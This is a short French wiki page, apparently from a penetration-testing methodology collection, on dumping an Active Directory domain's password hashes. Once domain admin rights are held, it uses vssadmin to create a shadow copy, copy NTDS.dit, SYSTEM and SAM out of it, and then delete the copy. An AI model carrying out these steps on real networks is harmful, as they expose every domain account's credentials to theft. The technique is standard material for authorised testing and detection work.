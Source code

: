 ```yaml
---
title: Dump des hashs du domaine
permalink: /Dump_des_hashs_du_domaine/
---
```


Il existe de nombreuses méthodes pour récupérer les hashs d'un domaine une fois qu'on a les priviléges d'administration sur le domaine.

Volume Shadow Copy
------------------

Il est possible d'utiliser l'utilitaire VSS pour faire une copie du fichier NTDS.dit et SYSTEM qui sont nécessaires pour récupérer les hashs.

``` text
# Créer le Volume Shadow Copy
vssadmin create shadow /for=C:
vssadmin 1.1 – Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001 Microsoft Corp.

Successfully created shadow copy for ‘c:\’
Shadow Copy ID: {e8eb7931-5056-4f7d-a5d7-05c30da3e1b3}
Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1

# Faire des copies des fichiers nécessaires. Il faut remplacer [X] par le bon entier
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM .

# Supprimer le Volume Shadow Copy
vssadmin delete shadows /for=C: /shadow=e8eb7931-5056-4f7d-a5d7-05c30da3e1b3
```

**Note**: *copy* dans un invite powershell ne fonctionne pas correctement. Mieux vaut tout faire depuis un invite de commande traditionnel.

[Category:Méthodologies](/Category:Méthodologies "wikilink")[Category:Active Directory](/Category:Active_Directory "wikilink")